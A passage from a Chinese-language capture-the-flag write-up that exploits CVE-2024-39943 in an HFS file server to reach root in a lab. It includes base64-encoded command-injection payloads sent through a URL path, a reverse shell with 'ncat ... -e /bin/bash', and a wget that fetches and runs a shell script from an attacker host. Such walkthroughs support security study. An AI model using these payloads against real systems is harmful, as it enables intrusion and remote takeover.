

但是无法接收到反弹**Shell**，解码**base64**后发现可能是目标无法访问到外网。

```
bmNhdCAxNzIuMjAuMTgyLjEwNyA2NjY2IC1lIC9iaW4vYmFzaA==

ncat 172.20.182.107 6666 -e /bin/bash
```

因此可以换一种方式

```
curl 172.19.0.1:3000

Y3VybCAxNzIuMTkuMC4xOjMwMDA=
```

同时在**POC**代码中可以注意到他最后访问了一个这样的路径



之前开放了Anyone可操作，这里访问之前必须重命名保存之后才行！！！

因此只需要访问如下路径即可

```
http://172.20.189.150:4444/~/api/get_ls?path=/tmp/<payload>
```

在进行反弹**shell**之前，需要上传一个**shell.sh**，可以使用**wget**传上去

```
wget 172.19.0.1:8000/shell.sh -O /tmp/shell.sh

d2dldCAxNzIuMTkuMC4xOjgwMDAvc2hlbGwuc2ggLU8gL3RtcC9zaGVsbC5zaA==
```



然后反弹**shell**

```
bash /tmp/shell.sh

YmFzaCAvdG1wL3NoZWxsLnNo
```



查看存在的**docker**容器

```
root@40b85800163c:/tmp# docker ps -a
docker ps -a
CONTAINER ID   IMAGE          COMMAND                  CREATED        STATUS       PORTS                    NAMES
40b85800163c   ubuntu:20.04   "/bin/bash -c 'apt-g…"   2 hours ago    Up 2 hours   127.0.0.1:9090->80/tcp   docker-hfs_hfs_1
8485358c3c48   mysql:8.0.0    "docker-entrypoint.s…"   6 months ago   Up 2 hours   3306/tcp                 docker-wp_db_1
3ed5ddfe0e0c   wordpress      "docker-entrypoint.s…"   6 months ago   Up 2 hours   127.0.0.1:8080->80/tcp   docker-wp_wordpress_1
```

查找可以利用的命令



这里如果是直接在反弹**shell**里运行的话会**TTY**报错，只需要**script /dev/null**开启伪终端即可



## Summary

`User`：通过**WPscan**和**Nuclei**扫描出来**任意用户注册**的漏洞，通过上传**wp**插件获得反弹**shell**，在环境变量里得到**ssh**的登录凭证。

`Root`：使用**fscan**对内网网段进行扫描，得到存活的**172.19.0.2**。通过弱口令登录到后台，查看到服务版本号。经过搜索查找到[CVE-2024-39943](https://github.com/truonghuuphuc/CVE-2024-39943-Poc)，脚本并不能直接使用，不过根据代码逻辑可以找到利用的**URL**路径，艰难地反弹到**shell**后查看到存在另外几个**Docker**容器，进入到**ubuntu**里面拿到**root.txt**。
